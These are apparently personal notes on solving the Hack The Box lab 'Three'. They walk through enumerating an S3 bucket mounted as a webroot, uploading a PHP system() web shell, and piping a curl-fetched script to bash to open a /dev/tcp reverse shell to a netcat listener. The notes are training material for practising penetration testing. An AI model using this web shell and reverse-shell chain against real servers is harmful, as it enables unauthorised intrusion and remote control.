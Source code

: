 ## Lab Title: Three
- Date: 2025-08-02
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 0

### 1. Scenario Summary
- Upload files S3 Bucket, Web/Reverse Shells, Server Side Code Injection
### 2. Findings
- Nmap          >> Enumeration
    - 2 TCP ports: 22, 80
    - Apache httpd 2.4.29 ((Ubuntu))
- Website       >> on port 80: running website
    - mail@thetoppers.htb >> domain: thetoppers.htb

- `etc/hosts`   >> triggers when DNS is unavailable
    - `echo "10.129.19.12 thetoppers.htb" | sudo tee -a /etc/hosts`
    - `echo "10.129.19.12 s3.thetoppers.htb" | sudo tee -a /etc/hosts`

- S3 Bucket     >> S3 Buckets >> cloud-based storage
    - Usage: Media Hosting, Software Delivery, Static Website
    - `awscli` in Linux >> used to interact with S3 bucket
    - `aws configure` >> to configure with `temp` options
    - `aws --endpoint=http://s3.thetoppers.htb s3 ls` >> to list buckets hosted by the server
    - `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb` >> to list objects of specific bucket

    - Idea:
        - apparently here, the webroot: is S3 bucket (mounted on this /var/www/html) location >> Apache is using this
        - we send here shell.php with `awscli` >> this file contains a PHP code >> `<?php system($_GET["cmd"]); ?>`
        - system() function executes commands in the server
        - Later we give a command from the browser to this server >> server runs these commands
    - Steps:
        1. `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
        2. `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`
        3. In the browser we set `whoami` command to be executed: ` http://thetoppers.htb/shell.php?cmd=whoami`
            ```code

                    Browser URL	shell.php?cmd=whoami
                    PHP sees	$_GET['cmd'] = "whoami"
                    Runs	system("whoami")
                    Server executes	whoami (Linux command)
                    Output	e.g., www-data → shown in browser
            ```

- Reverse Shell
    1. `shell.sh` file >>
        ```code
                #!/bin/bash
                bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
        ```
        - Explanation:
            ```code
                0 >> standard input
                1 >> standard output
                2 >> standard error

                1. bash -i >> launches an interactive shell
                2. >& /dev/tcp/<YOUR_IP>/1337
                    Here >& means = shorthand for:
                        1> /dev/tcp/<YOUR_IP>/1337 2>&1
                            1> → send standard output to /dev/tcp/...
                            2>&1 → send standard error to the same place as FD 1
                3. 0>&1 means:
                    0> redirect standard input
                    0>&1 >> make stdin come from the same place as stdout
            ```
    2. We will start a `ncat` listener on our local port `1337`
        - `nc -nvlp 1337` now it takes sdtn outpout/error/input capabilities from reverse shell

    3. Start a web server on our local machine on port 8000 and host this bash file:
        - `python3 -m http.server 8000`

    4. Visit the site: with `curl` we fetch the reverse shell file and pipe it to bash:
        - `http://thetoppers.htb/shell.php?cmd=curl%20%<YOUR_IP_ADDRESS>:8000/shell.sh|bash`
        ```describe
            ┌────────────┐      HTTP GET     ┌─────────────────────┐
            │  Your PC   │ ───────────────▶  │  thetoppers.htb      │
            │            │ shell.php?cmd=... │  (PHP system() runs) │
            └────────────┘                   └──────────┬───────────┘
                                          ▼
                                 Run on target server:
                         curl http://<YOU>:8000/shell.sh | bash
                                          ▼
                           Server connects back to you:
                      bash -i >& /dev/tcp/<YOU>:1337 0>&1
                                          ▼
                     You get reverse shell in your netcat
        ```
    5. Finding flag easier then >> `find / -name flag.txt 2>/dev/null`

### 3. Idea
- IP >> directed to domain >> domain has subdomain found by Gobuster(vhost) >> then since it's Amazon S3 bucket connected to it via `awscli` >> created a PHP Shell to run commands since S3 is used / mounted in Webroot, used by Apache. These commands are run on server side >> we send them by browser >> then create a reverse shell >> we force the PHP to get our shell.sh and send it server PHP treats this as internal command >> we specified to pipe to bash >> reverse shell is executed >> connected to our netcat lister on local machine. Voila
